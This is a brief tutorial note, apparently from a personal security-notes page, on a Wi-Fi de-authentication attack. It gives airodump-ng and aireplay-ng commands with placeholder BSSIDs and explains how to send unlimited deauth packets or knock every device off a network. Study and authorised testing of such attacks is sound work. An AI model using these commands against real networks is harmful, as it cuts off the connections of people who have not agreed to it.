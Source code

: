 ```yaml
---
title: De-Authentication Attack
tags:
  - networking
  - security
  - exploitation
date: 2024-01-28 14:15:56 -0600
updated: 2025-05-21 19:11:46 -0500
---
```


The attack is performed by changing our MAC to Target MAC and sending Disconnect Request to the Router  
Then acting as the Router and send disconnect packet to Target  
This attack can be performed on all networks. No need to know the connection key. No need to connect to the network as well

````bash
# Sniff the Network to attack
airodump-ng --bssid <router-bssid> --channel <channel> <interface> 
aireplay-ng --deauth 0 -a <router-bssid> -c <target-bssid> <interface>
````

By using `0` as value for `--deauth` we are saying send infinite deauth packets to target. We can use a number to limit the amount of packets sent.  
If we do not use `-c` flag in deauth attack then all devices on the network will be disconnected
